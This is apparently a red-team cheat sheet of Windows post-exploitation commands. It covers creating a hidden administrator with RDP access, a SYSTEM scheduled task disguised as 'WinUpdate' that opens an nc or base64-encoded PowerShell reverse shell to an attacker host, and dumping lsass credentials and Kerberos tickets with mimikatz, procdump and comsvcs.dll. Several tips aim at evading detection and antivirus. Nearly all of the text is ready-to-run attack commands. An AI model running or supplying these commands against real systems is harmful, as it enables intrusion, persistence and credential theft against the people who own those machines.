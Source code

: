 #### Add New Administrator
###### Create New User
`net user admin2 Password123! /add`
###### Add User to Administrators Group
`net localgroup administrators admin2 /add`
###### Add User to Remote Desktop Users
`net localgroup "Remote Desktop Users" admin2 /add`
###### Modify Registry to allow RDP
`reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`
###### Allow RDP on Firewall
`netsh advfirewall firewall set rule group="Remote Desktop" new enable=yes`
###### Force Policy Update
`gpupdate /force`

---
#### Schedule A Reverse Shell
###### Create a scheduled task to trigger a reverse shell with nc
`schtasks /create /tn "WinUpdate" /tr "C:\temp\nc.exe -e cmd.exe <attacker-ip> <port>" /sc minute /mo 1 /ru SYSTEM`
###### Test run task
`schtasks /run /tn "WinUpdate"`
###### Delete scheduled task
`schtasks /delete /tn "WinUpdate" /f`

##### With PowerShell
###### PowerShell Script
```
$TaskName = "WinUpdate"

# Define the PowerShell reverse shell payload
$Payload = '$client = New-Object System.Net.Sockets.TCPClient("<attacker-ip>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String);$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

# Base64 encode the payload (bypasses command-line detection)
$EncodedPayload = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($Payload))

# Create the scheduled task action
$Action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-NoP -NonI -W Hidden -Enc $EncodedPayload"

# Set the trigger to run every minute
$Trigger = New-ScheduledTaskTrigger -Once -At (Get-Date).AddMinutes(1) -RepetitionInterval (New-TimeSpan -Minutes 1) -RepetitionDuration (New-TimeSpan -Hours 24)

# Set the task to run as SYSTEM
$Principal = New-ScheduledTaskPrincipal -UserId "SYSTEM" -LogonType ServiceAccount

# Task settings (runs on battery, doesn't stop on power issues)
$Settings = New-ScheduledTaskSettingsSet -AllowStartIfOnBatteries -DontStopIfGoingOnBatteries

# Register the scheduled task
Register-ScheduledTask -TaskName $TaskName -Action $Action -Trigger $Trigger -Principal $Principal -Settings $Settings

```
**Note:** Remove SYSTEM line if you don't want SYSTEM access.
###### Register the Task
`.\reverse-task.ps1`
###### Start the Task Manually
`Start-ScheduledTask -TaskName "WinUpdate"`
###### Stop the Scheduled Task
`Unregister-ScheduledTask -TaskName "WinUpdate" -Confirm:$false`

---
#### Dump Credentials
###### mimikatz credentials dump
`mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit`
**Note:** Mimikatz can also be found in PowerSploit.ps1 as Invoke-Mimikatz.ps1
[[2.3.4 Lateral Movement#Pass the Hash|Exploitation]]
###### Extract all Kerberos tickets from memory
`mimikatz.exe "privilege::debug" "sekurlsa::tickets /export"`
[[2.3.4 Lateral Movement#Pass the Ticket|Exploitation]]
##### Run in Memory
###### From Network Share
`Invoke-Command -ComputerName <target-ip> -ScriptBlock { \\<attacker-ip>\tools\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit }`
###### Base64 Encoded
`$b64 = [Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\temp\tools\mimikatz.exe"))`
**Note:** This Base64 encodes the executable.
`[System.IO.File]::WriteAllBytes("C:\Windows\Temp\m.exe", [Convert]::FromBase64String("<Base64-Encoded-Mimikatz>")) Start-Process "C:\Windows\Temp\m.exe" -ArgumentList "privilege::debug sekurlsa::logonpasswords exit"`
###### procdump.exe
`procdump.exe -accepteula -ma lsass.exe lsass.dmp`
**Note:** Now use mimikatz on a separate machine to avoid AV issues.
###### rundll32.exe
`rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump lsass.exe C:\Windows\Temp\lsass.dmp full`
**Note:** Now use mimikatz on a separate machine to avoid AV issues.
###### mimikatz to interrogate lsass.dmp
`sekurlsa::minidump C:\path\to\lsass.dmp`
`sekurlsa::logonpasswords`

